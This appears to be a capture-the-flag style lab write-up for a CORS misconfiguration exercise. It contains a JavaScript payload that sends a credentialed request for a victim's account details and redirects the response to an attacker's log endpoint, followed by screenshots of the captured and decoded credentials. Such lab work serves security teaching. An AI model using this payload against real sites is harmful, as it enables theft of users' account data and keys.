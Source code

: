 1. The following script is delivered to the victim:

```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>
```

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   
	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
